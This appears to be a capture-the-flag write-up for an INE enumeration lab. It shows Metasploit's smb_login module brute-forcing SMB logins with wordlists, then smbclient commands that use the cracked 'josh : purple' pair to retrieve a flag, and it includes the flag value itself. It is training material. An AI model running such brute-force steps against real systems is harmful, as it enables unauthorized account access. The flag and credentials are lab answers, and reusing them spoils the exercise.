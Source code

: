 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use Metasploit to brute force SMB credentials using user and password wordlists. Once valid credentials are found, access the SMB share and retrieve the flag.

---

## Tools Used

- Metasploit (`msfconsole`)
- Wordlists (`users.txt` and `unix_passwords.txt`)
- `smbclient` to access shares after cracking

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```

### 🔹 Step 2: Create a User Wordlist

Created users.txt with common usernames:
```bash
josh
bob
nancy
alice
```

### 🔹 Step 3: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```

### 🔹 Step 4: Valid Credentials Found
```yaml
josh : purple
```

### 🔹 Step 5: Access SMB Share Using smbclient
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```

### 🔹 Step 6: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```

Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.
